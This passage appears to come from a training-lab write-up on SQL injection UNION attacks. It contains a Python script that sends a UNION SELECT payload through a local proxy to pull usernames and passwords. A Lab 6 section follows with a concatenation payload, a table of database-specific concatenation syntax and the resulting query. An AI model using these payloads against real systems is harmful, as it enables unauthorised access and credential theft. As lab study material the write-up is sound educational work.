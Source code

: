 ```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
def exploit_sqli(url,payload):
    uri="category?=Gifts"
    print("The url for request is: {url}--".format(url=url+uri+payload))
    r=requests.get(url+uri+payload+"--", verify=False, proxies=proxies)
    if r.status_code==200:
        return True
    return False

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'UNION SELECT username, password FROM Users"
    except IndexError:
        print('Usage: %s <url>' % sys.argv[0])
        print('Example: %s www.example-com' % sys.argv[0])
        sys.exit(-1)
    columns=exploit_sqli(url,payload)
    if columns:
        print("SQL Injection Successfull")
    else:
        print("Injection Failed, try again")
```

## Lab 6 - SQL injection UNION attack, retrieving multiple values in a single column

In this lab we only have to concatenate two strings of different columns in a single column, since only one column of the table is in string format, for that we use the payload `'UNION SELECT NULL, username || '-' || password FROM users--`, remember that the syntax for concatenation may vary according to the database, I leave you this table for your guidance:

| DB Version | Syntax for string concatenation    |
|:-----------|:-----------------------------------|
| Oracle     | 'foo'&#124;&#124;'bar'                       |
| Microsoft  | 'foo'+'bar'                        |
| PostgreSQL | 'foo'&#124;&#124;'bar'                       |
| MySQL      | 'foo' 'bar' or CONCAT ('foo','bar')|

The query will look something like this:
```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT NULL, username ||'-'|| password FROM users--
```
this is what we get back from the web, the blessed credentials.